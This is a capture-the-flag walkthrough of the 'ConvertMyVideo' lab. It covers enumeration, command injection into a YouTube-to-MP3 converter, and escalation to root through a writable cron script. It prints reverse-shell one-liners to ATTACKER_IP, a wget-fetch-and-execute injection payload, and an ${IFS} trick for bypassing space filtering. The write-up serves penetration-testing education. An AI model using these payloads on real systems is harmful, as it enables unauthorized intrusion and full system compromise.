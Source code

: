 # ConvertMyVideo

##### Difficulty: [ Medium ]

**Tags:** `Linux`,  `nmap`,  `Gobuster`,  `OS injection`,  `reverse shell`,  `pspy`,  `cronjob`

---

##### Written: 10/12/2021

##### IP address: 10.10.77.218

---

### [ What is the name of the secret folder? ]

As always, we start things off with a full **nmap** scan on the target machine.

```
sudo nmap -sC -sV -vv -T4 -p- -oN full_nmap 10.10.77.218
```

**Results:**

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
| ssh-rsa 
[REDACTED]
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
| ecdsa-sha2-nistp256 
[REDACTED]
|   256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBKsS7+8A3OfoY8qtnKrVrjFss8LQhVeMqXeDnESa6Do
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Looks like there are only **2** ports open: **22** (SSH) and **80** (HTTP)

Let's take a look at the HTTP webserver:

<img style="float: left;" src="screenshots/screenshot1.png">

We have a simple web page where we can input a Youtube video ID. The page will then supposedly convert the target video to MP3 format for us to download.

Let's run a **Gobuster** scan to enumerate any hidden directories.

```
gobuster dir -u http://10.10.77.218/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,html,txt,js -t 50
```

<img style="float: left;" src="screenshots/screenshot2.png">

From the results, we find the name of the secret folder: **/admin**

---

### [ What is the user to access the secret folder? ]

Let's visit the **/admin** subdirectory:

<img style="float: left;" src="screenshots/screenshot3.png">

Looks like we need some credentials. I tried common credentials like **admin:admin**, but those did not work.

Let's move on and do some manual enumeration.

Looking at the source code of the web page, we can see that it loads in another javascript file called **main.js**:

<img style="float: left;" src="screenshots/screenshot4.png">

**main.js** actually contains the functionality of the page on the client-side:

<img style="float: left;" src="screenshots/screenshot5.png">

We can see that the page takes in the user input and appends it to "https://www.youtube.com/watch?v=". A fair assumption to make is that this url will then be passed to some internal program that is running on the server-side, which actually does the conversion to MP3. Of course, as the machine does not have access to the Internet, the conversion should never work as the machine will not be able to reach Youtube.

<br>

At this stage, the first thought that came to my mind was: **Command Injection**.

If the user input is being passed to a command-line program and is being executed on the shell-level, then perhaps we can inject some of our own OS commands to be run!

<br>

To check whether the input is indeed being passed to a command-line program, let's try to input '**test**':

<img style="float: left;" src="screenshots/screenshot6.png">

We get an interesting error message in the response. If we do a Google search of the error, we find that the error actually comes from an open-source program called **youtube-dl** (https://github.com/ytdl-org/youtube-dl).

<img style="float: left;" src="screenshots/screenshot7.png">

From the Github page, we confirm that this program is indeed a command-line program! This means that command injection most likely the way to go.

<br>

Let's try injecting our own commands. We'll start off by trying to inject the `id` command. 

*(More payloads can be found at https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)*

Let's try a basic bypass using the `;` symbol: 

`test;id;`

<img style="float: left;" src="screenshots/screenshot8.png">

Nice it works! :smile: *(Note: instead of `;`, we can also use* `|`*)*

<br>

Now we can try setting up a **reverse shell** so that we can gain an initial foothold into the machine. 

*(Payload used is from: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)*

I saved the following payload into a file onto my local machine:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f
```

<img style="float: left;" src="screenshots/screenshot9.png">

I then set up a simple HTTP server so that we can download the file onto the target machine. We can then inject the following commands into the web page:

`test;wget http://ATTACKER_IP:8000/shell.sh;chmod +x shell.sh;./shell.sh;`

This will have the target machine download our reverse shell script, make it executable, then execute it.

<img style="float: left;" src="screenshots/screenshot10.png">

Hmmm there seems to be a problem with our payload. If we look closely at the error message, it seems that there is an argument  error with our `wget` command. Most likely, the **spaces** in our payload are being stripped before being sent to the command-line.

To bypass the space stripping, we can use `${IFS}` to replace the spaces.

---

**From:** https://bash.cyberciti.biz/guide/$IFS

<img style="float: left;" src="screenshots/screenshot11.png">

---

Now our payload becomes:

`test;wget${IFS}http://ATTACKER_IP:8000/shell.sh;chmod${IFS}+x${IFS}shell.sh;./shell.sh;`

We send in the payload...

<img style="float: left;" src="screenshots/screenshot12.png">

And we're in! :smiling_imp:

<br>

There is a directory called **admin** in **/var/www/html**:

<img style="float: left;" src="screenshots/screenshot13.png">

There is a hidden file called **.htpasswd** in this **admin** directory:

<img style="float: left;" src="screenshots/screenshot14.png">

This file contains the **user** that can access the **/admin** subdirectory on the web server:

<img style="float: left;" src="screenshots/screenshot15.png">

The user is: **itsmeadmin**

*Note: there's no need to crack the password hash as it is not needed to complete this challenge.*

---

### [ What is the user flag? ]

The **user flag** can be found in the same directory:

<img style="float: left;" src="screenshots/screenshot16.png">

---

### [ What is the root flag? ]

Now that we're in, let's find a way to escalate our privileges.

Doing some digging around the filesystem, I found an interesting file called **clean.sh** in **/var/www/html/tmp**:

<img style="float: left;" src="screenshots/screenshot17.png">

This file is owned by **www-data** and is also writable. Let's look at the contents:

<img style="float: left;" src="screenshots/screenshot18.png">

Just a simple `rm` command...

From my past experiences with CTF challenges, these sort of 'clean-up' scripts are normally run periodically as a **cronjob**. Let's check **/etc/crontab** to see if clean.sh is being run as a cronjob:

<img style="float: left;" src="screenshots/screenshot19.png">

Nothing here...

With that said, it is possible to set up cronjobs without including them in the /etc/crontab file. Hence, let's use a nifty tool called **pspy** to see if this is the case (https://github.com/DominicBreuker/pspy/blob/master/README.md). **pspy** allows us to snoop on processes without the need for root permissions.

<img style="float: left;" src="screenshots/screenshot20.png">

Sure enough, after a minute has passed, we see that the **clean.sh** was indeed run! Furthermore, it was run by user with UID=0, aka **root**!

<br>

Since clean.sh is writeable by us, all we have to do is replace it with a **reverse shell script**:

```
echo 'bash -i >& /dev/tcp/ATTACKER_IP/5555 0>&1' > clean.sh
```

Now set up a netcat listener, sit back and wait.

<img style="float: left;" src="screenshots/screenshot21.png">

We're now root!

The root flag can be found in **/root**:

<img style="float: left;" src="screenshots/screenshot22.png">
